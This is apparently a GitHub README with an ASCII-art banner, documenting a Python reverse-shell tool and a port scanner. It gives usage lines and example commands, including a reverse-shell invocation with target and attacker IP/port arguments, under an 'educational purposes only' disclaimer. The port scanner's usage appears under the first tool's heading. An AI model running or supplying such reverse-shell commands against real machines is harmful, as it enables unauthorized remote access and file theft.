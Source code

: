 print("""
 	   █████╗ ███╗   ██╗████████╗ ██████╗ ███╗   ██╗██╗   ██╗
	  ██╔══██╗████╗  ██║╚══██╔══╝██╔═══██╗████╗  ██║╚██╗ ██╔╝
 	  ███████║██╔██╗ ██║   ██║   ██║   ██║██╔██╗ ██║ ╚████╔╝ 
 	  ██╔══██║██║╚██╗██║   ██║   ██║   ██║██║╚██╗██║  ╚██╔╝  
 	  ██║  ██║██║ ╚████║   ██║   ╚██████╔╝██║ ╚████║   ██║   
          ╚═╝  ╚═╝╚═╝  ╚═══╝   ╚═╝    ╚═════╝ ╚═╝  ╚═══╝   ╚═╝   
                                                        
""")
Simple but Effective Tools
===========================

This repository contains simple but effective tools for various purposes. These tools are for educational purposes only and should not be used for illegal activities.

Requirements
------------

* Python 3.x

Tools
-----

### Tool 1: Reverse Shell

This tool creates a reverse shell connection to a target machine and allows you to execute commands and transfer files.

#### Usage:

```bash
python reverse_shell.py <target_ip> <target_port> <attacker_ip> <attacker_port>
```

#### Example:

```bash
python reverse_shell.py 192.168.1.100 1234 127.0.0.1 4444
```

#### Features:

* Command execution
* File transfer

#### Usage:

```bash
python port_scanner.py <target_ip> <start_port> <end_port>
```

#### Example:

```bash
python port_scanner.py 192.168.1.100 1 100
```

#### Features:

* Fast and efficient scanning
* Customizable range of ports

License
-------

This repository is distributed under the Apache License, Version 2.0. See the `LICENSE` file for more details.

Disclaimer
----------

These tools are for educational purposes only and should not be used for illegal activities. The author is not responsible for any misuse of these tools.
